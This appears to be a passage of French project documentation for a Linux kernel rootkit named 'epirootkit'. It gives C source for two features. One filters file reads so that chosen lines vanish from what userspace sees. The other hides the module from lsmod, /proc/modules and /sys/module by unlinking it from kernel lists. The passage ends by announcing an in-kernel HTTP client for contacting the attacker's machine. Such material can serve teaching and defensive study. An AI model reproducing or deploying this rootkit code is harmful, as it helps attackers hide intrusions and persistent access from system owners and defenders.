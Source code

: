 ```c
        if (!fin_ligne) fin_ligne = tampon_lecture + octets_lus;
        
        // Test pattern ligne interdite
        if (!verifier_ligne_interdite(debut_ligne)) {
            size_t longueur = fin_ligne - debut_ligne;
            if (fin_ligne < tampon_lecture + octets_lus) longueur++;
            
            // Copie ligne autorisee
            memcpy(tampon_filtre + taille_filtree, debut_ligne, longueur);
            taille_filtree += longueur;
        }
        debut_ligne = fin_ligne + 1;
    }
    
    // Remplacement contenu original
    copy_to_user(tampon_utilisateur, tampon_filtre, taille_filtree);
    return taille_filtree;
}
```

**Detection de fichiers cibles** : Analyse du chemin via `d_path` pour identifier les fichiers a filtrer
**Parsing ligne par ligne** : Utilisation de `strchr` pour decomposer le contenu en lignes
**Reconstruction** : Creation d'un nouveau buffer sans les lignes interdites

### Masquage du module dans l'espace kernel

Le rootkit implemente un masquage sophistique en supprimant ses traces des structures de donnees kernel :

```c
// Suppression des listes kernel dans dissimulation.c
void cacher_module(void)
{
    pr_info("epirootkit: Masquage module en cours\n");
    
    // Suppression de la liste des modules charges
    list_del(&THIS_MODULE->list);
    
    // Suppression de l'objet sysfs
    kobject_del(&THIS_MODULE->mkobj.kobj);
    
    pr_info("epirootkit: Module masque avec succes\n");
}
```

**Effet** : Le module devient invisible pour `/proc/modules`, `lsmod`, et l'arborescence `/sys/module/`
**Mecanisme** : Suppression des noeuds des listes chainees kernel sans desallocation memoire

### Systeme de notification HTTP kernel

Le rootkit implemente un client HTTP complet dans l'espace kernel pour communiquer avec la machine attaquant :
